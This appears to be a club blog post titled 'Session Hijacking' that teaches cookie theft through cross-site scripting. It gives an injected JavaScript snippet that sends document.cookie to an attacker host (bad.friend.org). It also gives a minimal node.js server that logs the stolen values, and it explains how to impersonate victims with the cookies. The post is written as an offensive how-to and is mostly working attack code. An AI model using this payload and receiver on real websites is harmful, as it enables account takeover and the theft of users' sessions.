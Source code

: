 ```yaml
---
layout: post
title: Session Hijacking
subtitle: Week 19 - data theft over the Internet
tags: [XSS, node, exploit]
---
```


Previously, we have demonstrated how to use [ARP poison](https://github.com/twlinux/club/wiki/Man-in-the-Middle-(MitM)-Attack-%E2%80%93-ARP-Poisoning) attacks to compromise unencrypted communication on local area networks (LAN). The attacks described below are effective over HTTPS traffic from external networks.

<center>
<iframe width="560" height="315" src="https://www.youtube-nocookie.com/embed/T1QEs3mdJoc" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
</center>

# Cookie Stealing

First, you must create an entry point on the vulnerable website with cross-site scripting. Force clients to establish a connection with your server.

## JavaScript Injection

For the code snippet below, we assume your server is accessible at the domain `bad.friend.org`. This is an example of an **AJAX** request, which is unlikely to be noticed by victims.

{% highlight javascript linenos %}

let yourCookie = encodeURI(document.cookie);
url = `http://bad.friend.org/gimmie?yourCookies=${yourCookie}`;

let xhr = new XMLHttpRequest();
xhr.open('GET', url, true);
xhr.send();

{% endhighlight %}

## Basic node.js Server

This is a minimal node.js server that prints HTTP request parameters to standard output.

{% highlight javascript linenos %}

const http = require('http');

http.createServer((req, res) => {

  let i = req.url.indexOf('?');
  if (i !== -1)
    console.log(req.connection.remoteAddress + ' ' + req.url.substring(i));

  res.end('thanks buddy\n');
}).listen(process.env.PORT || 8125);

{% endhighlight %}

You can impersonate victims by spoofing their unique cookie. The Chrome extension [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg) is easy to use.

## Alternative Approaches

Your situation might constrain the available options. More examples are available on [Github](https://github.com/twlinux/lets-talk/tree/master/examples).

